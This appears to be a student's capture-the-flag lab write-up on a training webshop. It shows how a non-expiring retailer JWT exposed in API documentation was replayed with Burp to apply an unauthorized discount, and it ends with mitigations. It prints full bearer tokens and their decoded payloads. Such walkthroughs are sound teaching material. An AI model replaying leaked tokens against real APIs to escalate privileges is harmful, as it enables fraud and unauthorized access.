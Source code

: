# JWT GlockenEmil

## Answers


1. Explain the security problem
    - JWT token has no expiry date
    - other issues
        - Get request for request that change data
        - API documention should usually not be accessible (usually, there are cases where this makes sense)
            - and api documention should of course not contain a valid JWT token.
2. Explain your attack (exploit, screenshot, hacking journal)
    - see below
3. Explain mitigation (remedy)
    - JWT token must expire (expiry data should be part of the payload)
        - ideally, the access token is short lived but there is a refresh token that can be used to get a new access token



## Steps

**Step 1 + 2 analysis**
Example url sending requestUrl: https://c5b22d5c-d986-4cb7-8426-536f342c928d.idocker.vuln.land/api/product/toprated 

api info page:   https://c5b22d5c-d986-4cb7-8426-536f342c928d.idocker.vuln.land/api/

discount request:  https://c5b22d5c-d986-4cb7-8426-536f342c928d.idocker.vuln.land/api/retailer/order/:orderId/applyDiscount/   ( GET request )

Order id: 5acb4be9d9520729d8638c9a  CHF 2950 (taken from webpage)


**Step 3 try discount with bearer token taken from previous requests**
https://c5b22d5c-d986-4cb7-8426-536f342c928d.idocker.vuln.land/api/retailer/order/5acb4be9d9520729d8638c9a/applyDiscount/   -> sending get request without adding JWT

Resend and add JWT token (using Burp )

JWT token in http header (from previous requests):
`Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODU5IiwidXNlcm5hbWUiOiJjdXN0b21lcjAiLCJmaXJzdG5hbWUiOiJKdWxpYW5lIiwibGFzdG5hbWUiOiJTY2h1bHplIiwiZW1haWwiOiJKdWxpYW5lLlNjaHVsemVAZ21haWwuY29tIiwiaWF0IjoxNjgwMDMzODgxLCJhdWQiOiJzZWxmIiwiaXNzIjoid2Vic2hvcCJ9.b-6j7rrCteZC9VxsJrltpcappM7a5XFcfnI2S3aQedo`


**Step 4 success**
Bearer token from API documentation: 
`Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjp0cnVlLCJfaWQiOiI1YWNjODUxZmM4YmMyNjIyMTRjMDFlZTUiLCJ1c2VybmFtZSI6InJldGFpbGVyMCIsImZpcnN0bmFtZSI6IkphY2tvYiIsImxhc3RuYW1lIjoiTcO8bGxlciIsImVtYWlsIjoiSmFja29iLk11ZWxsZXJAZ21haWwuY29tIiwiaWF0IjoxNTIzMzU0NjIyLCJhdWQiOiJzZWxmIiwiaXNzIjoid2Vic2hvcCJ9.7eDbsqhJ0jyXdKWsjyVgpT5ZL6JIWlBMH8laQ6XYghQ`

Analyzed JWT token with https://jwt.io/
```
{
  "alg": "HS256",
  "typ": "JWT"
}

{
  "isRetailer": true,
  "_id": "5acc851fc8bc262214c01ee5",
  "username": "retailer0",
  "firstname": "Jackob",
  "lastname": "Müller",
  "email": "Jackob.Mueller@gmail.com",
  "iat": 1523354622,
  "aud": "self",
  "iss": "webshop"
}
```
-> is retailer

resend again (using Burp) -> success. new price: CHF 1475.-- (2950 / 2)

![Burp JWT token request](JWT_tokenWithBurp.png)


## Varia

JWT links
https://token.dev/  (info, maybe also a debugger)
https://jwt.io/  (jwt debugger )